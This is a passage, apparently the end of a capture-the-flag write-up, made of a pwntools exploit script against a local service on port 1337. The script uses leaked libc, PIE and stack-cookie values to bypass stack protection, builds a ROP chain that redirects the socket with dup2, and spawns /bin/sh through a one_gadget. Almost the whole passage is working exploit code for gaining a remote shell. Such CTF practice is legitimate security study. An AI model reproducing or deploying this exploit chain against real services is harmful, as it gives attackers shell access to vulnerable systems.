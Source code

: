 ```
    libc.address = int(leak[36],16) - 0x20830    # 0x7ffff7a2d830-0x00007ffff7a0d000 = 0x20830

    info("0x%x pie_base",pie_base)
    info("0x%x stack_cookie",stack_cookie)
    info("0x%x libc.address",libc.address)

    '''
    pl = "QWEwQWExQWEyQWEzQWE0QWE1QWE2QWE3QWE4QWE5QWIwQWIxQWIyQWIzQWI0QWI1QWI2QWI3QWI4"
    pl += "QWI5QWMwQWMxQWMyQWMzQWM0QWM1QWM2QWM3QWM4QWM5QWQwQWQxQWQyQWQzQWQ0QWQ1QWQ2QWQ3"
    pl += "QWQ4QWQ5QWUwQWUxQWUyQWUzQWU0QWU1QWU2QWU3QWU4QWU5QWYwQWYxQWYyQWYzQWY0QWY1QWY2"
    pl += "QWY3QWY4QWY5QWcwQWcxQWcyQWczQWc0QWc1QWc=    "
    req = "GET /?toy=`{``}` HTTP/1.1rn".format(pl)
    s=remote("localhost",1337,level="error")
    s.s(req)
    '''
    ret = pie_base + 0x0000000000000c4e
    rdi = pie_base + 0x0000000000001d9b
    rsi_r15 = pie_base + 0x0000000000001d99
    rdx_rsi = libc.address + 0x00000000001150c9

    #1.Smash stack bypass
    pl = ''
    pl += 'a'*0x48
    pl += p64(stack_cookie)
    #2.Call dup2(4,1) [out]
    pl += p64(ret)*4
    pl += p64(rdi)
    pl += p64(4)
    pl += p64(rdx_rsi)
    pl += 'a'*8
    pl += p64(1)
    pl += p64(libc.sym['dup2'])
    #3.Call dup2(4,0) [in]
    pl += p64(ret)*4
    pl += p64(rdi)
    pl += p64(4)
    pl += p64(rdx_rsi)
    pl += 'a'*8
    pl += p64(0)
    pl += p64(libc.sym['dup2'])
    #4.Call system('/bin/sh')
    pl += p64(ret)
    pl += p64(libc.address+0x45216) # one_gadget
    pl.rjust(200,'x00')

    _request(b64e(pl),'',True)

if __name__ == '__main__':
    pwn()
```

WIN~

[![](https://p5.ssl.qhimg.com/t01eeb9fd14fd85b142.png)](https://p5.ssl.qhimg.com/t01eeb9fd14fd85b142.png)

